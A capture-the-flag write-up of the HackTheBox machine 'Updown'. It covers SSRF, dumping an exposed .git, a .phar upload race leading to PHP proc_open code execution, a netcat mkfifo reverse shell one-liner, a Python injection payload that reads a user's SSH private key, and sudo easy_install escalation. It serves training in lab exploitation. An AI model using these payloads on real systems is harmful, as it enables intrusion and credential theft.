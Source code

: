 # HackTheBox - Updown

## NMAP

```bash
Nmap scan report for 10.10.11.177
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 (HTTP)

<img src="https://i.imgur.com/a07l6jF.png"/>

The web page has a functionality to check if any site is up also it shows us a domain name `siteisup.htb` so let's add this in hosts file

<img src="https://i.imgur.com/gE15qy5.png"/>

With the debug mode enabled we can see the response made on the url which leads to Server Side Request Forgery (SSRF)

<img src="https://i.imgur.com/3ZJ7pmx.png"/>

I tried using the file protocl to read local file `file:///etc/passwd` but it was blocked

<img src="https://i.imgur.com/mYyqBN8.png"/>


On the domain name, we can fuzz for subdomains with `wfuzz`

```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://siteisup.htb' -H "Host: FUZZ.siteisup.htb" --hh 1131
```
This finds a subdomain `dev`  with 403 status code

<img src="https://i.imgur.com/SMoTo0I.png"/>

We can try accessing it through the status check as there exsits SSRF

<img src="https://i.imgur.com/8TJa57G.png"/>

But it shows that it's down so there maybe some filtering going on dev site, fuzzing for files and directories, it shows `/dev` but it returns a blank page

<img src="https://i.imgur.com/nGFvajL.png"/>

<img src="https://i.imgur.com/Aa8mhHW.png"/>

So fuzzing at `/dev/`, we'll find `.git`  

<img src="https://i.imgur.com/8j45k8X.png"/>

<img src="https://i.imgur.com/ZW2wkoP.png"/>

We can downloag `.git` thourgh wget recursivley with ``--recusrive`

```bash
wget --recursive http://10.10.11.177/dev/.git/
```

<img src="https://i.imgur.com/cq9MXY3.png"/>

After downloading the files, navigate to directory which has `.git` and run `git checkout .` to recover the files

<img src="https://i.imgur.com/Qiw9aln.png"/>

Checking `changelog.txt` it talks about removing the upload option

<img src="https://i.imgur.com/BGyH6ku.png"/>

`.htaccess` file shows us a header if it's not in the request, the request will be denied

<img src="https://i.imgur.com/ronpi7S.png"/>

<img src="https://i.imgur.com/xy9eUQI.png"/>

<img src="https://i.imgur.com/BjvSX7c.png"/>

I used a burp extension called `Add Custom Header` so that on every request the special header gets added 

<img src="https://i.imgur.com/xEbbJMQ.png"/>

<img src="https://i.imgur.com/cB3AGDO.png"/>

<img src="https://i.imgur.com/7y4jx4Q.png"/>

Looking at `checker.php` file it checks for file extensions which may lead to uploading php files to get code execution

<img src="https://i.imgur.com/mRSXx5D.png"/>

It's checking for all extensions execpt for `.phar`, but even if we upload it it's going to read the contents of the file, make a request to see if there' 200 status code and it's going to delete the file after making a request to each of the content available in the file

<img src="https://i.imgur.com/Rufdyz4.png"/>

<img src="https://i.imgur.com/GDweWn9.png"/>

To get code execution, we can make the site make a request to a site which isn't reachable so it's going to try to make a reqeust to that site for sometime and our uploaded file won't get deleted

<img src="https://i.imgur.com/D7UiG65.png"/>

<img src="https://i.imgur.com/JdWaJRO.png"/>


<img src="https://i.imgur.com/4qqUnqX.png"/>

<img src="https://i.imgur.com/vO1p9Fj.png"/>

## Foothold

From `phpinfo()` we can see most of the functions are disabled that could allow command execution, to find out which function can used to get command execution which can use this script https://github.com/teambi0s/dfunc-bypasser

<img src="https://i.imgur.com/Bkx3QWT.png"/>

We can abuse `proc_open` to get command execution

https://www.macs.hw.ac.uk/~hwloidl/docs/PHP/function.proc-open.html

```php
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open("bash", $descriptorspec, $pipes);
if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], "id");
    fclose($pipes[0]);

    while (!feof($pipes[1])) {
        echo fgets($pipes[1], 1024);
    }
    fclose($pipes[1]);
    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```


<img src="https://i.imgur.com/kZtLwg9.png"/>

On uploading the file, we'll get the output of `id` command

<img src="https://i.imgur.com/CFzY99h.png"/>

Using nc mkinfo we can get the reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.72 2222 >/tmp/f
```

<img src="https://i.imgur.com/RQ9ZK5q.png"/>

## Privilege Escalation (developer)

In `developer`'s directory we can find `siteisup` binary along with it's source code which can run as developer because of SUID

<img src="https://i.imgur.com/8R0hi52.png"/>

We can exploit this by import `os` module and executing `id` command

```
__import__('os').system('id')
```

<img src="https://i.imgur.com/5EAxQoF.png"/>

From here we can get the ssh key and login as developer user

```
__import__('os').system('cat /home/developer/.ssh/id_rsa')
```

<img src="https://i.imgur.com/uAsuz47.png"/>

<img src="https://i.imgur.com/wF7TIXz.png"/>

## Privilege Escalation (root)

Running `sudo -l` will show that we can run `/usr/local/bin/easy_install` as root user

<img src="https://i.imgur.com/QsZuC4Y.png"/>

We can abuse this by checking GTFOBINS for the abuse 

https://gtfobins.github.io/gtfobins/easy_install/

<img src="https://i.imgur.com/KEwbNRt.png"/>

<img src="https://i.imgur.com/vsWhSIP.png"/>

